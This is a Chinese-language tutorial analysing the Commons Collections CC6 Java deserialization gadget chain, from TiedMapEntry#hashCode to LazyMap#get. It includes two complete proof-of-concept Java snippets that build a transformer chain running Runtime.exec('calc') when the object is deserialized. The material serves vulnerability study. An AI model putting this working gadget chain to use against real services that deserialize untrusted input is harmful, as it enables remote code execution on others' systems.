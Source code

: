 # 0x01 Preface

Java 8u71之后，CC1不能利用的主要原因是`sun.reflect.annotation.AnnotationInvocationHandler#readObject`的逻辑发生了变化。下面介绍一条比较通用的利用链CC6

# 0x02 Analysis

CC6链子后半段还是使用CC1的`LazyMap`，由于`AnnotationInvocationHandler`因Java版本而利用受限，需要找寻其他可以调用`LazyMap#get`的地方。

INTRODUCING ~ `org.apache.commons.collections.keyvalue.TiedMapEntry`

```java
public class TiedMapEntry implements Map.Entry, KeyValue, Serializable {
    public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
    public Object getValue() {
        return map.get(key);
    }
    public Object getKey() {
        return key;
    }
    public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
}
```

`hashCode()` => `getValue()` => `map.get(key)`

基础篇中的URLDNS就用到了`hashCode`

```java
// HashMap#readObject
// Read the keys and values, and put the mappings in the HashMap
for (int i = 0; i < mappings; i++) {
    K key = (K) s.readObject();
    V value = (V) s.readObject();
    putVal(hash(key), key, value, false, false);
}
// ====================================================================
// HashMap#hash
// 调用hash是为保证键的唯一性
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
// ====================================================================
// HashMap#put
public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
}
```

`readObject()` => `hash(key)` => `key.hashCode()`

因此让**key == TiedMapEntry对象**就能接起来了。

# 0x03 Weave POC

```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer(
        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
    new InvokerTransformer(
        "exec", new Class[]{String.class}, new Object[]{"calc"})
};

// 假的payload
Transformer[] fakeTransformers = new Transformer[] {new
    ConstantTransformer(1)};
Transformer transformerChain = new ChainedTransformer(fakeTransformers);
Map map = new HashMap();
Map lazyMap = LazyMap.decorate(map, transformerChain);

TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");
Map expMap = new HashMap();
// put的时候也会执行hashCode，为了防止本地调试触发payload，这里放入假的payload
expMap.put(tiedMapEntry, "xxx");

// 将真正的transformers数组设置进来
Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(transformerChain, transformers);

ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(expMap);
oos.close();

ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
Object o = (Object) ois.readObject();
```

上面的POC运行后只能执行假的payload，实际上反序列化的时候没能执行payload。

执行`Map.put()`的时候会触发`hash()`，进而牵动整条链。

再来看`LazyMap`的`get()`，由于是懒加载因此得当前map中没有key，才会调用`factory.transform(key)`生成value，再`map.put(key, value)`，这时候`lazyMap`中就有key了。（这里的key是`new TiedMapEntry`传入的key）

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

解决方法也很简单，把这个键值对从`LazyMap`中移除就行，即`lazyMap.remove("test");`

```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer(
        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
    new InvokerTransformer(
        "exec", new Class[]{String.class}, new Object[]{"calc"})
};

Transformer[] fakeTransformers = new Transformer[] {new
    ConstantTransformer(1)};
Transformer transformerChain = new ChainedTransformer(fakeTransformers);
Map map = new HashMap();
Map lazyMap = LazyMap.decorate(map, transformerChain);

TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");
Map expMap = new HashMap();
expMap.put(tiedMapEntry, "xxx");

lazyMap.remove("test");

Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(transformerChain, transformers);

ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(expMap);
oos.close();

ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
Object o = (Object) ois.readObject();
```

